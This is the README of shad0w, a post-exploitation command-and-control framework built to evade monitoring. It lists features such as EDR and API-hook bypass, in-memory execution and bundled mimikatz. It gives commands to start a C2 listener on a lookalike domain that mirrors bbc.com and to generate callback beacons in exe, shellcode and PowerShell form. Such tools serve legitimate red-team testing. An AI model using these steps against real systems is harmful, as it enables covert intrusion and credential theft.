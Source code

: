 # shad0w

[![Project Status](https://img.shields.io/badge/status-BETA-yellow?style=flat-square)]()

shad0w is a post exploitation framework designed to operate covertly on heavily monitored environments

### Features

#### C2 Server

- Secure communication over HTTPS.
- Clone and live proxy any website, making the C2 fully browsable.

#### Beacons

- Staged and static beacons
- Shellcode and powershell formats allow for completely fileless attacks
- Uses native windows syscalls
- Bypasses userland API hooking
- Blocks EDR from loading DLLs into its process
- Can execute .NET assemblies, EXEs, DLLs, VBS, JS or XSL files completely in memory
- Common privilege escalation exploits built in
- Interact with the file system
- Configurable C2 callback jitter

#### Modules

- [GhostPack](https://github.com/GhostPack)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpSocks](https://github.com/nettitude/SharpSocks)

### Coming Soon

- Unmanaged powershell
- Syscalls for older versions of windows
- Kernel mode capability
- More privilege escalation exploits
- Ghost in the logs integration
- UAC bypasses
- Persistence
- 32 bit support
- More beacon formats

### Install

To install shad0w run the two commands below, making sure you already have docker installed on your system.

    $ git clone https://github.com/bats3c/shad0w.git && cd shad0w
    $ sudo ./shad0w install

### Usage

#### C2

To start the C2 server and have it listening for connections you can use the command.

    $ shad0w listen -e <endpoint>

Where the `<endpoint>` is the IP address or domain name the C2 will be listening on. SSL certificates will also be dynamically generated.

To use the website mirroring functionality you can use the `-m` or `--mirror` flag

    $ shad0w listen -e www.bbc-news.com -m "https://www.bbc.com/"

This will mean that if the C2s address of `www.bbc-news.com` is visited the content of `https://www.bbc.com/` will be retrieved and returned. This is also true for any links on the cloned website. If the person browsing the C2 navigated to `https://www.bbc-news.com/sport/football/52799575` the content at `https://www.bbc.com/sport/football/52799575` would be mirrored.

#### Beacons

*Only 64 bit beacons are currently supported*

There are two types of beacons, `secure` and `insecure`. Secure beacons have all the mitigation and evasions techniques built in such syscalls and anti dll injection. These secure beacons are designed to work on the lastest versions of windows.

The insecure beacons are designed to work on a wide variety of windows versions but are designed to be used in situations where detection does not matter.

The syntax for beacon generation.

    $ shad0w beacon -p <payload> -H <c2 address> -f <format> -o <filename>

The format for payloads follows the following syntax

    <arch>/<os>/<secure>/<static>

So to generate a static 64 bit secure windows beacon it would be

    x64/windows/secure/static

Although it is recommended to use staged beacons so the command to generate a staged secure beacon in EXE format would be

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f exe -o beacon.exe

Or for an insecure beacon it would be

    $ shad0w beacon -p x64/windows -H www.bbc-news.com -f exe -o beacon.exe

There are currently 3 different beacon formats; exe, shellcode and powershell
The `-f` flags is used to control the different formats of the beacons.

To generate a beacon in shellcode or powershell format you can use the `raw` or `psh` value respectively 

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f raw -o beacon.bin

    $ shad0w beacon -p x64/windows/secure/static -H www.bbc-news.com -f psh -o beacon.ps1

#### Interface

To get a list of commands you can use the `help` command

    shad0w ≫ help

To get a list of active beacons you can use the `beacons` command

    shad0w ≫ beacons

To interact with a beacon use the `beacons` command with the `-i` flag specifying the beacon id

    shad0w ≫ beacons -i 1

### Credits

- [JUMPSEC](https://www.jumpsec.com/) (for just generally being awesome)
- [The Wover](https://twitter.com/TheRealWover) (cause donut is so good)
